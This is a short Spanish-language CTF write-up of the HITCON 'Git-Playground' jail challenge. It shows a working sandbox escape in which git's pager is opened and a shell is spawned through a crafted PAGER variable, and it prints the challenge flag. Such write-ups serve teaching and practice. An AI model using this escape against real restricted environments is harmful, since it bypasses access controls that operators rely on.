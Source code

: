 ```yaml
---
layout: post
title: Git-Playground
comments: true
categories: [Jail, Writeups]
---
```


Este era un ejercicio facilito de la HITCONCTF, pero creo que hay un par de conceptos interesantes sobre jails que podemos aprender.

<br>
![Image]({{ site.baseurl }}/images/posts/hitcon.webp){:width="300px"}

# Overview

La descripción del reto era:

> A simple git playground for you to test simple git commands.
> 
> Note that everything in the sandbox are either from public releases, distro tarballs, or built from unmodified upstream source with common toolchains under normal architectures. Nothing strange and weird here.

Si echamos un ojo al código, veremos un pequeño bucle en python que nos restringe los comandos que podemos ejecutar. Uno de los que si están disponibles es `git`.

# Exploitation

En este tipo de casos, si conseguimos abrir el *pager*, que en este caso es *Vi*, podremos ejecutar comandos escapando las restricciones. Para abrir el *pager* de *git* es tan fácil como:

```bash
git diff
```

Tras esto, podemos utilizar un comando como el siguiente para lanzar una shell:

```bash
!PAGER='sh -c "exec sh 0<&1"' git -p help
```

La flag se encuentra en una variable de entorno. Esto no me gustó, ya que estuve un rato buscando un archivo *flag*, pero tal vez se hizo para que pudiera ser resuelto sin necesida de conseguir una shell interactiva :V

```bash
/work # busybox env
FLAG=hitcon{Bu5yb0X_34511y_cR4sH_Wh3N_bu117_w17h_C14Ng?}
[...]
```

Me gustó bastante el reto, y me parece algo interesate para probar en entornos de sandbox.